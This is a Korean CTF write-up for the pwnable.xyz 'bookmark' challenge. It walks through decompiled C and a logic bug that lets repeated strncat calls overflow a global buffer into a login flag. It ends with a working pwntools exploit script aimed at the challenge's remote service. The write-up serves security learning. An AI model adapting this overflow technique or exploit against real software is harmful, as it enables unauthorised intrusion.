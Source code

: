 ```yaml
---
title: "[pwnable.xyz]bookmark"
date: 2020-2-1
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


랭킹 1페이지 찍엇당..

우선 바이너리를 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인함수 처음 시작에 `qword_202300` 라는 전역변수에 랜덤값을 넣어준다.

```c
int init_login()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
    exit(1);
  read(fd, &qword_202300, 8uLL);
  return close(fd);
}
```

1번 메뉴에서는 랜덤값을 저장한 변수와 입력한 값을 비교해서 `dword_202308` 변수에 1을 넣어주는데 이를 통해 4번 메뉴에서 win함수를 호출시킬 수 있다. 아마 이 문제의 핵심은 `qword_202300` 를 알아내거나 `dword_202308` 를 0이 아닌 아무 값으로 덮어주면 되는 것이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  setup();
  init_login();
  puts("Web bookmarks.");
  while ( 1 )
  {
    print_menu();
    read_long();
    switch ( &savedregs )
    {
      case 0u:
        return 0;
      case 1u:
        printf("Password: ", argv);
        if ( qword_202300 == read_long() )
          dword_202308 = 1;
        break;
      case 2u:
        create_url();
        break;
      case 3u:
        argv = bm;
        printf("url: %s\n", bm);
        break;
      case 4u:
        if ( dword_202308 )
        {
          puts("Not Implemented.");
          puts("But here is a reward.");
          win();
        }
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

여기서 bm이라는 전역변수에 값을 써줄 수 있는 곳이다.

```c
int create_url()
{
  void *buf; // ST18_8
  signed int v2; // [rsp+Ch] [rbp-14h]
  char *v3; // [rsp+10h] [rbp-10h]

  printf("Secure or insecure: ");
  read(0, bm, 9uLL);
  if ( strncmp(bm, "http", 4uLL) )
    return puts("Not a valid URL.");
  if ( byte_202204 == 's' )
    v3 = &unk_202205;
  else
    v3 = &byte_202204;
  while ( *v3 == ':' || *v3 == '/' )
    ++v3;
  *v3 = 0;
  printf("Size of url: ", "http");
  v2 = read_long();
  if ( v2 < 0 || v2 > 127 )
    return puts("Too large.");
  buf = malloc(v2);
  read(0, buf, v2);
  return strncat(bm, buf, 0x100uLL);
}
```

`create_url` 함수에서 로직 버그가 터진다. 만약 여기 bm에 strncat으로 이어붙이는데 계속 이어붙일 수 잇다면 bm과 `dword_202308` 의 거리는 264이기 때문에 덮을 수 있을거다.

```
bm = 0x0000000000202200
byte_202204 = 0x0000000000202204
unk_202205 = 0x0000000000202205
qword_202300 = 0x0000000000202300
dword_202308 0x0000000000202308
```

여기서 취약점은 *v3가 ':' 이거나 '/' 이면 ++v3; 해주기 때문에 취약점이 발생한다. 왜냐하면 strncat은 널바이트를 자르고 그 이후로  붙여주기 때문에 *v3 = 0이 안되도록 하면 된다. 그로 인해 ':'나 '/'을 계속 넣어주고 다시 create_url함수를 실행시켜서 문자열을 계속 붙여주면 널바이트부터 이어서 붙여지기때문에 한 3번만 하면  `dword_202308` 변수를 덮을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30021)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(passwd):
	sla('>','1')
	sa(':',passwd)

def create_url(url,size,data):
	sla('>','2')
	sa(':',url)
	sa(':',str(size))
	p.send(data)

def print_url():
	sla('>','3')

def save_url(): # win()
	sla('>','4')

def quit():
	sla('>','0')

create_url('https',127,':'*127)
create_url('https',127,':'*127)
create_url('https',127,':'*127)
#login(str(0x3a3a3a3a3a3a3a3a))
save_url()

p.interactive()
```